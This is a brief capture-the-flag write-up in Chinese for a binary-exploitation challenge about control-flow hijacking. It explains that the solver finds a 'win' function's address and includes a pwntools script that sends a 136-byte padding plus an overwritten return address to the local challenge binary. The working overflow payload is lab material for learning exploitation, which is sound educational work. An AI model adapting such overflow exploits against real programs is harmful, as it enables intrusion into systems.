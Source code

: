 # 挑战简介
```
hard规则其实和前面一样的
逆向工程就是了
```

# 思路
思路很明显，找win函数地址嘛，找到了，输入便是了

```
#!/usr/bin/python
from pwn import *
import struct

context(os='linux',arch='AMD64',log_level='debug')
p = process('/challenge/binary-exploitation-control-hijack')

p.recvuntil('Send your payload (up to 4096 bytes)!\n')
p.send(b'a' * 136 + b'\x8D\x15\x40')
p.recvall()
```
